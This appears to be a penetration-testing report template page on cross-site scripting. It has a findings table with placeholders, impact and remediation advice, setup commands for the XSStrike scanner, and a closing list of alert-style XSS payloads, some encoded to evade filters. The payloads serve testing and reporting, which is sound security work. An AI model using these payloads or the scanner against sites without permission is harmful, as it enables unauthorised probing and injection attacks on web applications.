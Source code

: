 ### Cross Site Scripting

| Vulnerability          | Cross Site Scripting                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
|:---------------------- |:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Severity**           | **HIGH**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Affected URL**       | <insert the affected url\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Tools**              | Burp Suite, [XSStrike](https://github.com/gh1mau/vapt/blob/main/poc/cross_site_scripting.md#xsstrike)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| **Techniques/ Method** | URL Fuzzing, Parameter Tampering                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Proof of Concept**   | <insert POC screenshot\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Payload\(s\)**       | [List of possible payload](https://github.com/gh1mau/vapt/blob/main/poc/cross_site_scripting.md#possible-payloads)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| **Description**        | Cross\-site Scripting \(XSS\) refers to client\-side code injection attack wherein an attacker can execute malicious scripts into a legitimate website or web application\. XSS occurs when a web application makes use of unvalidated or unencoded user input within the output it generates\.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| **Impact**             | Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.<br/>Furthermore, JavaScript can read and make arbitrary modifications to the contents of a page being displayed to a user\. Therefore, XSS in conjunction with some clever social engineering opens up a lot of possibilities for an attacker\.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| **CVE/CWE/OSVDB**      | CWE\-79                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Recommendation         | **Apply context\-dependent encoding and/or validation to user input rendered on a page.**<br/>In order for a Cross\-site scripting \(XSS\) attack to take place, an attacker does not directly target a victim\. Instead, an attacker exploits a vulnerability in a web application visited by a victim, where the web application is used to deliver the malicious JavaScript\. The victim's browser is not able to distinguish between malicious and legitimate JavaScript, and therefore, executes the attacker's malicious payload\. <br/> Since cross\-site scripting \(XSS\) is user input which is interpreted as code\. In order to prevent XSS, secure input handling is necessary\. The two fundamental methods of handling untrusted user input are encoding and validation\. <br/><br/> • **Encoding** - Escapes user input so that browsers interpret it as data, not as code <br/>• **Validation** \- Filters user input so that browsers interpret it as code without malicious commands <br/><br/>Encoding and validation are two different techniques to preventing cross\-site scripting \(XSS\)\. Deciding which should be used highly depends on the context within which the untrusted user input is being inserted\. |
| References             | [Cross site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)<br/>[Excess XSS, a comprehensive tutorial on cross-site scripting](https://excess-xss.com/)<br/>[XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)<br/>[CWE-79: Improper Neutralization of Input During Web Page Generation (Cross-site Scripting)](https://cwe.mitre.org/data/definitions/79.html)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |

---

### Tools :

#### XSStrike

Reference: [Home · s0md3v/XSStrike Wiki · GitHub](https://github.com/s0md3v/XSStrike/wiki)

```bash
# installing XSStrike:
$ git clone https://github.com/s0md3v/XSStrike.git

$ cd XSStrike

$ pip3 install -r requirements.txt

# running XSStrike (crawl)
$ python3 xsstrike.py -u "http://localhost/index.php" --crawl

# running XSStrike (GET parameter)
$ python3 xsstrike.py -u "http://localhost/profile.php?nokp="
```

![](https://github.com/gh1mau/vapt/blob/main/image/xsstrike_1.png "XXStrike")

![](https://github.com/gh1mau/vapt/blob/main/image/xsstrike_2.png)

---

### Possible Payloads

```javascript
=>"'><script>alert('gh1mau')</script>

=%3E%22'%3E%3Cscript%3Ealert('gh1mau')%3C/script%3E 

%22%3Cd3V%0dOnmouSEoVeR%09=%09confirm(%22gh1mau%22)%3E%3Ch1%3Egh1mau%3C/h1%3E
```
